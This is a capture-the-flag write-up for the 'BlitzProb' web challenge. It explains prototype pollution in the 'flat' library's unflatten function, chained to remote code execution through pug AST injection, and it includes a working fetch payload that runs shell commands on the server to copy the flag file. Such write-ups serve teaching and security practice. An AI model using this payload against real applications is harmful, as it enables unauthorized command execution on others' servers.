 ```yaml
---
title: BlitzProb
date: 2021-04-25 10:13:00 +0200
categories: [web]
tags: [cyberapocalpyse2021]
toc: false
---
```


This challenge contained a Prototype Pollution to RCE via AST Injection. You can read more about it in this great [blog](https://blog.p6.is/AST-Injection/) post. (\* ^ ω ^)

The webpage looks like this:
![](/assets/img/blitzProb_web.png#center)

## Vulnerability
If we go through the source code, we can see in the file `routes/index.js` that the function "unflatten" is called after receiving a post request and on a successful if  "pug.compile. The vulnerable code of the challenge:

``` javascript
const path              = require('path');
const express           = require('express');
const pug               = require('pug');
const { unflatten }     = require('flat');
const router            = express.Router();

router.get('/', (req, res) => {
    return res.sendFile(path.resolve('views/index.html'));
});

router.post('/api/submit', (req, res) => {
	const { song } = unflatten(req.body);

	if (song.name.includes('Not Polluting with the boys') || song.name.includes('ASTa la vista baby') || song.name.includes('The Galactic Rhymes') || song.name.includes('The Goose went wild')) {
		return res.json({
			'response': pug.compile('span Hello #{user}, thank you for letting us know!')({ user:'guest' })
		});
	} else {
		return res.json({
			'response': 'Please provide us with the name of an existing song.'
		});
	}
});

module.exports = router;
```

After reviewing the `package.json` file we can see that "flat" “5.0.0” is installed, which suffers from a Prototype Pollution vulnerability via Abstract Syntax Tree. [Here](https://github.com/hughsk/flat/issues/105) you can find the PoC. To exploit this, we first need to trigger the “unflatten” function with our payload and then the “pug.compile” function so that the server runs our payload.

## Exploitation
To exploit this vulnerability and read the flag, we simply open the web console and send the payload below to "/api/submit":

```javascript
let CMD = "process.mainModule.require('child_process').execSync('cat /app/flag* >> /app/static/js/flag.txt')"

fetch('/api/submit', {
	method: 'POST',
	body: JSON.stringify({
		'song.name': "Not Polluting with the boys",
		"__proto__.block": {
			"type": "Text", 
			"line": CMD
		}
	}),
	headers: {'Content-Type': 'application/json'}
})
```

The flag file has been written to the static directory of the web server. After visiting `static/js/flag.txt` we see the flag:

> CHTB{p0llute_with_styl3}

٩(◕‿◕｡)۶